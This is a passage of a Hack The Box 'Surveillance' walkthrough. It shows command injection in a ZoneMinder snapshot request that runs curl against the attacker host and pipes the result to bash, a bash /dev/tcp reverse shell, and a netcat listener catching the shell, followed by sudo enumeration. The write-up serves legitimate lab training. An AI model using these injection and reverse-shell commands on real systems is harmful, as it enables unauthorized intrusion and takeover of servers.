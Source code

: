 >   `view=snapshot&action=create&monitor_ids[0][Id]=;curl+http%3a//10.10.14.5/shell|bash&__csrf_magic=key%3Af8dc3b7201112c84059d7ccd226d549fa01a6173%2C1719736107`

Create a reverse shell payload on Kali and launch the exploit.

```bash
$ cat shell
bash -i >& /dev/tcp/10.10.14.5/9999 0>&1
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![intercept_login_request_edit](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Surveillance/intercept_login_request_edit.png?raw=true)

```bash
nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.245] 37204
bash: cannot set terminal process group (1096): Inappropriate ioctl for device
bash: no job control in this shell
zoneminder@surveillance:/usr/share/zoneminder/www$ 
```

Check if the user has any `sudo` privileges.

```bash
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *

zoneminder@surveillance:/usr/share/zoneminder/www$ ls /usr/bin/zm*.pl
ls /usr/bin/zm*.pl
/usr/bin/zmaudit.pl
/usr/bin/zmcamtool.pl
/usr/bin/zmcontrol.pl
/usr/bin/zmdc.pl
/usr/bin/zmfilter.pl
/usr/bin/zmonvif-probe.pl
/usr/bin/zmonvif-trigger.pl
/usr/bin/zmpkg.pl
/usr/bin/zmrecover.pl
/usr/bin/zmstats.pl
```
